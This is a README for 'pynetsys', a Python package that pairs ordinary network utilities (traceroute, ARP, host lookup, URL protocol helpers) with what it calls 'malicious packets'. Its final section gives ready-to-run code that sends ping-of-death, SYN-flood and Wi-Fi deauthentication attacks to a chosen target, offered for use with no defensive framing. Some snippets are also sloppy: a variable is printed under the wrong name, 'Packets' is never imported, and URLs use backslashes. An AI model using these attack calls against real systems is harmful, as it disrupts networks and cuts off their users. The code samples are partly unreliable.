 # PYNETSYS

pynetsys is a collection of tools and malicious packets.

Developed by Andrea Vaccaro from ANDRVV (c) 2022

# Installing

Linux, MacOS = ```pip3 install pynetsys --user```

Windows = ```pip install pynetsys --user```

# Tools

```python
import pynetsys

trace = pynetsys.tool.traceroute("python.org") --> list
print(trace)

arping = pynetsys.tool.arp() --> dict
print(arping)

hostinfo = pynetsys.tool.hostlookup("python.org") --> dict
print(hostinfo)

networks = pynetsys.tool.networkFinder() --> dict
print(hostinfo)

----------------

isonline = pynetsys.isOnline("python.org") --> bool
print(isonline)

haswebprotocol = pynetsys.hasWebProtocol("http:\\python.org") --> bool
OR
haswebprotocol = pynetsys.hasWebProtocol("python.org") --> bool 
print(haswebprotocol)

hasSSLwebprotocol = pynetsys.hasSSLWebProtocol("https:\\python.org") --> bool
OR
hasSSLwebprotocol = pynetsys.hasSSLWebProtocol("python.org") --> bool 
print(hasSSLwebprotocol)

addwebprotocol = pynetsys.addWebProtocol("python.org") --> str
print(addwebprotocol)

removewebprotocol = pynetsys.removeWebProtocol("https:\\python.org") --> str 
OR
removewebprotocol = pynetsys.removeWebProtocol("http:\\python.org") --> str 
print(removewebprotocol)
```

# Create malicious packet and send

```python
import pynetsys

PACKET, ID = pynetsys.packet.packet(target = "example.org", attack = Packets.DEATH_PING)
pynetsys.packet.start(PACKET, ID, _verbose = 0)

PACKET, ID = pynetsys.packet.packet(target = "example.org", attack = Packets.SYN_FLOOD)
pynetsys.packet.start(PACKET, ID, _verbose = 0)

PACKET, ID = pynetsys.packet.packet(target = "aa:bb:cc:dd:ee:ff", attack = Packets.WIRELESS_DEAUTH)
pynetsys.packet.start(PACKET, ID, _verbose = 0)

```
